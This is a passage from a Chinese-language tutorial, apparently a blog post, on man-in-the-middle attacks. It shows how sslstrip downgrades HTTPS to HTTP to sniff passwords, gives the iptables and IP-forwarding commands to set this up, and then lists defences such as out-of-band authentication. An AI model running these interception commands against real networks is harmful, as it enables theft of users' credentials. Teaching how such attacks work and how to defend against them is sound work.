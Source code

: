 

0x03 SSL密码嗅探

　　对SSL流量的嗅探，可以使用sslstrip这个工具，它的原理就是把所有的https流量降级为http流量。相当于一个中间人的角色，它与服务器建立正常的https廉洁，而与浏览器则使用http连接。使用时需要本机开启流量转发，将80端口的http流量同时转发到10000端口上，在10000端口上使用sslstrip来监听即可：

```bash
# echo 1 > /proc/sys/net/ipv4/ip_forward
# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-ports 10000
# sslstrip -l 10000
```

 

0X04 防范MITM攻击的常用方法

\1. 将一些机密信息进行加密后再传输，这样即使被“中间人”截取也难以破解。

\2. 通过设备或IP异常检测。如用户以前从未使用某个设备或IP访问系统。

\3. 通过设备或IP频率检测：如单一的设备或IP同时访问大量的用户帐号。

\3. 进行带外认证，具体过程是：系统进行实时的自动电话回叫，将二次PIN码发送至SMS（短信网关），短信网关再转发给用户，用户收到后，再将二次PIN码发送到短信网关，以确认是否是真的用户。